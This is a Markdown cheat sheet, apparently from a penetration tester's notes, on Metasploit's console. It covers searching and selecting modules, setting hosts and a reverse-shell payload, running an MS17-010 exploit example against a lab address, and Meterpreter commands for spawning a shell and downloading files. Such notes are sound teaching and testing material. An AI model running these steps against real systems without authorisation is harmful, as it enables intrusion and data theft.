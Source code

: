 ```yaml
---
id: Metasploit
aliases: ["msfconsole"]
tags:
  - Pentest/Tools/Metasploit/Metasploit
---
```


# Metasploit

<!-- Resources {{{-->
## Resources

- [Metasploit](https://www.metasploit.com/)
- [GitHub - Metasploit](https://github.com/rapid7/metasploit-framework)

___

<!-- }}} -->

<!-- Usage {{{-->
## Usage

<!-- Launch Metasploit {{{-->
### Launch Metasploit

Launch the Metasploit Framework

```sh
msfconsole
```

<!-- }}} -->

<!-- Search Exploit {{{-->
### Search Exploit

Search for exploits, modules, and scanners

```sh
search <exploit>
```

Filter the findings

```sh
search type:<type> name:<name>
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> search type:auxiliary name:mssql
> ```
> ```sh
> search type:auxiliary scanner mssql
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Select Exploit {{{-->
### Select Exploit

Select the exploits, modules, and scanners

```sh
use <exploit_id>
```

```sh
use <exploit_name>
```

<!-- }}} -->

<!-- Show Actions {{{-->
### Show Actions

```sh
show actions
```

<!-- }}} -->

<!-- Set Actions {{{-->
### Set Actions

```sh
set ACTION <action_name>
```

<!-- }}} -->

<!-- Show Options {{{-->
### Show Options

Any option with `Required` set to `yes` needs to be set

```sh
show options
```

Show advanced options

```sh
show advanced
```

<!-- }}} -->

<!-- Set Options {{{-->
### Set Options

Set **Local Host** (IP, or the name of a network interface)

```sh
set LHOST <local_host>
```

Set **Remote Host** (IP, multiple IPs, or a file containing a list of IPs)

```sh
set RHOST <remote_host>
```

Set **payload** (*optional*)

```sh
set payload generic/shell_reverse_tcp
```

> [!example]-
>
> ```sh
> msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
> RHOSTS => 10.10.10.40
> msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
> LHOST => tun0
> ```

<!-- }}} -->

<!-- Check Exploit {{{-->
### Check Exploit

Check if the target is vulnerable to the exploit

```sh
check
```

> [!warning]
>
> Not every exploit supports the `check` function

<!-- }}} -->

<!-- Run Exploit {{{-->
### Run Exploit

Launch the exploit/scanner with the `run` or `exploit` commands

```sh
run
```

```sh
exploit
```

<!-- }}} -->

___

<!-- }}} -->

<!-- Meterpreter {{{-->
# Meterpreter

## Usage

Synopsis

```sh
meterpreter > help
```

Help

```sh
help
```

Spawn a shell

```sh
shell
```

<!-- Options {{{-->
## Options

- cd
- ls
- pwd
- download <file>

<!-- }}} -->

___

<!-- }}} -->
